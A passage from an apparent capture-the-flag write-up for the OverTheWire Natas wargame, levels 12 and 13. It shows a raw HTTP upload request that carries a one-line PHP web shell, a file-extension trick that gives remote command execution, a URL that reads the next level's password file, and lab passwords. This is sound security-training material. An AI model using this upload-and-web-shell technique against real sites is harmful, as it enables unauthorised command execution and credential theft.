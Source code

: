 ```
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------364886043538294662382913278575
Content-Length: 521
Origin: http://natas12.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Referer: http://natas12.natas.labs.overthewire.org/
Cookie: __utma=176859643.359785852.1644174450.1644174450.1644174450.1; __utmz=176859643.1644174450.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1

-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="filename"

tescipab3s.jpg
-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="uploadedfile"; filename="readme.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]); ?>

-----------------------------364886043538294662382913278575--
```
I change the tescipab3s.jpg to tescipab3s.php which seems to circumvent the issue. Navigating this this location and using: <b>http://natas12.natas.labs.overthewire.org/upload/tescipab3s.php?cmd=[COMMAND]</b> give me RCE. I can then display the password for the next level using: <b>http://natas12.natas.labs.overthewire.org/upload/n9tb0zl0l7.php?cmd=cat%20/etc/natas_webpass/natas13</b>

## natas13
```
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```
The source code
```php
 <html>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
```